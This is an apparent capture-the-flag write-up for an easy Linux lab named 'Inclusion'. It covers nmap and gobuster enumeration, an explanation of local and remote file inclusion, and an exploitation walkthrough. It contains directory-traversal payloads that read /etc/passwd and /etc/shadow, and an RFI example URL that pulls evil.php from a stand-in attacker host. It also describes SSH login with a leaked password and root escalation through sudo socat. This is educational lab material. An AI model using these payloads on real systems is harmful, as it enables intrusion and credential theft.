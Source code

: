 ```yaml
---
title: "Inclusion"
tags:
  - Easy
  - Linux
  - nmap
  - LFI
  - socat
---
```


| Difficulty |  |  IP Address   |  |
| ---------- |--|:------------: |--|
|    Easy    |  |  10.10.16.93  |  |

---

Let's start off by running a basic `nmap` scan on the target machine with standard scripts loaded and version enumeration enabled. 

```
sudo nmap -sC -sV -vv 10.10.16.93
```

**Results:**

![screenshot1](../assets/images/inclusion/screenshot1.png)

As we can see, there are two services running on the target machine: **SSH (22)** and **HTTP (80)**.

Let's first check out the HTTP webserver. We are brought to this webpage:

![screenshot2](../assets/images/inclusion/screenshot2.png)

Looks like we have a simple blog.

Before conducting our happy-path enumeration, we can start a `gobuster` directory scan to see if we can enumerate any hidden directories.

```
gobuster dir -u http://10.10.16.93 -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

We make sure to include common file extensions in our enumeration, such as .php and .js.

While the scan is going on, let's explore the website. 

Firstly, I checked the source code to see if there was any additional information, such as comments left behind by the developer. There was none unfortunately.

Next, I tried searching for low-hanging fruit such as visiting the /robots.txt file, but those did not result in anything of use.

At the bottom of the web page, there were three sections dedicated to different blog posts. Looks like the posts taught us more about **Local File Inclusion (LFI)** and **Remote File Inclusion (RFI)** attacks! This will be useful as I currently have no idea what those attacks are. 

Clicking on the 'View Details' button below the sections brought me to the blog posts. I checked the source code for each of these dedicated posts but there was nothing of interest.

Alright, time to learn more about LFI and RFI attacks.

---

### Local File Inclusion

From my research, I learnt that Local File Inclusion attacks occur when a web page takes in a **file path** as input in order to access a file that exists locally (on the webserver). However, if the developer does not conduct proper input sanitization, attackers can exploit this by passing in a path that leads to another file. 

Below is an example of proper usage of file inclusion:

```
https://example.com/?module=contact.php
```

Here, the web server is taking an input 'module' and the value to be the file 'contact.php'. Of course, it would seem that contact.php is in the same directory as the calling file and hence, the name can be inputted directly.

What an attacker can then do is to replace contact.php with another path that leads to another file on the filesystem, such as this:

```
https://example.com/?module=../../../../../../../etc/shadow
```

*(Note that the many ../../../../../../ is used for directory traversal to bring the current directory back to the / directory on the local filesystem)*

Now the contents of the local /etc/shadow file will be returned, which is clearly not something that should happen.

If the attacker has managed to upload a malicious file onto the webserver, let's say a PHP script that sets up a reverse shell, then they can also use the LFI attack to make the web server call the malicious.php file that they've uploaded:

```
https://example.com/?module=../../../uploads/malicious.php
```

The web server will then execute the script.

### Remote File Inclusion

In essence, RFI attack vulnerabilities stem from the same root issue as LFI attacks. The only difference is that instead of providing a path to a file on the local filesystem, the attacker instead provides a URL to another web server (controlled by the attacker) to execute malicious code that is hosted on that webserver. For example:

```
http://example.com/?file=http://attacker.example.com/evil.php
```

---

Now that I had a better understanding of how LFI and RFI attacks work, I could try to execute the attack against the target machine. 

First, I tried to find points within the web page in which I could mount that attack. 

At first, I tried to use the search field to see if the web server accepted any input parameter. However, every time I searched for something, I noticed that I was simply being redirected back to the home page. Furthermore, I could tell from the URL that there was not any input being taken in:

![screenshot3](../assets/images/inclusion/screenshot3.png)

Next, I checked whether the web server took inputs when I clicked on the **'View Details'** buttons located at the bottom of the webpage. Sure enough, they did indeed practice file inclusion, which means that I could attempt to mount an attack there!

![screenshot4](../assets/images/inclusion/screenshot4.png)

It seemed that the web server was taking in an input 'name' and the filename that produced the wall of text shown on the page was called 'hacking'.

I'll try to change 'hacking' to **'../../../../../etc/passwd'** to see if I can read the /etc/passwd file.

![screenshot5](../assets/images/inclusion/screenshot5.png)

The attack worked! The contents of the /etc/passwd file is displayed by the web server. 

Next, I'll try if I can read the /etc/shadow file. If I can do so, I'll be able to obtain the credentials of users on the machine.

![screenshot6](../assets/images/inclusion/screenshot6.png)

Sure enough, I could read the /etc/shadow file. From the file, I saw that that there was a user account called **falconfeast**. His hashed password was also exposed. 

At this stage, I wanted to use `john` to crack this password. However, looking more closely at the file, I noticed a comment:

![screenshot7](../assets/images/inclusion/screenshot7.png)

On the right, we can see the text: 

> #falconfeast:rootpassword 

Could 'rootpassword' be the password for falconfeast? To test this, I tried to ssh into falconfeast's account using the password:

![screenshot8](../assets/images/inclusion/screenshot8.png)

Nice, that was his password after all! 

With that, I was able to log into falconfeast's account and obtain **user.txt** from his home directory.

---

Now let's escalate our privileges. 

Before using a privilege escalation automation script like [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), I first did some manual enumeration. 

Firstly, I ran the command `sudo -l` to see what sudo privileges that falconfeast had:

![screenshot9](../assets/images/inclusion/screenshot9.png)

Looks like he can run `socat` as root! Next, I went to [GTFOBins](https://gtfobins.github.io/gtfobins/socat/) to see if there were any vulnerabilities that I could exploit with this binary.

I managed to find a method using `socat` to spawn a shell as root:

![screenshot10](../assets/images/inclusion/screenshot10.png)

After running the command above, I managed to spawn a root shell:

![screenshot11](../assets/images/inclusion/screenshot11.png)

With that, I can easily navigate towards /root and obtain **root.txt**.

